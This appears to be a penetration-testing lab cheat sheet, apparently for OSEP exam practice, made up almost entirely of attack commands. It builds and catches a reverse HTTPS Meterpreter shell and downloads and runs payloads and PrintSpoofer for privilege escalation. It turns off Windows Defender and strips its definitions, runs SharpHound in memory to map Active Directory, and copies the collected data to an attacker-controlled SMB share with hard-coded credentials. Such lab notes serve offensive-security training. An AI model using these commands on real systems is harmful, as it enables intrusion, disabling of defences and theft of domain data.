 # Lab

```bash
msfconsole -qx "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_https;set LHOST 192.168.119.120;set LPORT 53;run;" 

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=53 EXITFUNC=thread -f csharp -o data.txt

python helper.py data.txt > enc.txt
```

```bat
;(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

```bat
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/hol.exe', 'C:\Users\Public\hol.exe')

C:\Users\Public\hol.exe 192.168.119.120 enc.txt
```

```pwsh
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
```

PrintSpoofer

```pwsh
iwr -uri http://192.168.119.120/PrintSpoofer64.exe -Outfile C:\Users\Public\PrintSpoofer64.exe
C:\Users\Public\PrintSpoofer64.exe -i -c powershell.exe
```

Disable AV

```pwsh
Set-MpPreference -DisableRealtimeMonitoring $true
cmd /c "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```

```pwsh
$ProgressPreference = "SilentlyContinue"
```

```pwsh
iex((new-object system.net.webclient).downloadstring("http://192.168.119.120/SharpHound.ps1"))

Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\Public\ -OutputPrefix "final"
```

```bash
impacket-smbserver osep /home/kali/Quick -smb2support -user admin -password Password1234
```

```bat
net use \\192.168.119.120 /user:admin Password1234
cp final_BloodHound.zip \\192.168.119.120\osep\
```
